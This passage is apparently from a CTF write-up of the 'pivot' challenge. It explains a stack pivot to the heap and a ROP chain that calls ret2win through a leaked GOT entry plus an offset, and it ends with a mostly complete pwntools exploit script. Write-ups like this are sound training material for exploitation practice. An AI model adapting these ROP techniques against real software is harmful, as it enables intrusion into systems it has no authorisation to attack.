 I think this is an unexpected solution...

## pivot

Final question. We only have `uselessFunction` now ORZ.  But the program will leak address to us. Although ASLR is enabled, the relative address remains the same. Actually I found that we can use the method of previous question to solve...but that's not fun. Let's solve it in intended way.

The input has limitation now, which allows us to overflow the *rip* but not enough for a long shellcode (you can only input a 23 characters shellcode, 6 instructions). But we can move the *rsp* to heap, which has unlimited space:
```
0x0000000000400b00 : pop rax ; ret
0x0000000000400b02 : xchg rax, rsp ; ret
```

Then, we need to use the *got* and *plt* of `foothold_function` calculate the address of `ret2win`:
```
Dump of assembler code for function foothold_function@plt:
   0x0000000000400850 <+0>:	jmp    QWORD PTR [rip+0x2017f2]        # 0x602048
   0x0000000000400856 <+6>:	push   0x6
   0x000000000040085b <+11>: jmp    0x4007e0
```

So, the *plt* address is `0x0000000000400850`, and the *got.plt* is `0x602048`

In *glt.plt*, the result will be stored in *rax*. We need to find some ways to control it:
```
0x0000000000400b00 : pop rax ; ret
0x0000000000400b05 : mov rax, qword ptr [rax] ; ret
0x0000000000400900 : pop rbp ; ret
0x0000000000400b09 : add rax, rbp ; ret
0x000000000040098e : call rax
```

Finally, let's calculate the difference of these two functions:
```
pwndbg> x ret2win
0xabe <ret2win>:	0xe5894855
pwndbg> x foothold_function 
0x970 <foothold_function>:	0xe5894855
pwndbg> x 0xabe-0x970
0x14e:	Cannot access memory at address 0x14e
```

Final Script:
```python
from pwn import *
offset = 40
ret2libOffset = 0x14e
shellcode = ''
bin = process('pivot')
for i in range(0,4):
    bin.recvline()
leak = bin.recvline()
leak = int(leak.split("0x")[1], 16)
print str(hex(leak))
movRegToHeap = "A"*offset + p64(0x0000000000400b00) + p64(leak) + p64(0x0000000000400b02)

shellcode += p64(0x0000000000400850) # calculate plt
shellcode += p64(0x0000000000400b00) # Pop rax
shellcode += p64(0x602048)           # Pass got.plt to rax
shellcode += p64(0x0000000000400b05) # Mov *0x602048 inside to get address
shellcode += p64(0x0000000000400900) # Pop offset
shellcode += p64(ret2libOffset)      # Offset value
shellcode += p64(0x0000000000400b09) # Calculate ret2win address
shellcode += p64(0x000000000040098e) # Execute it!

```
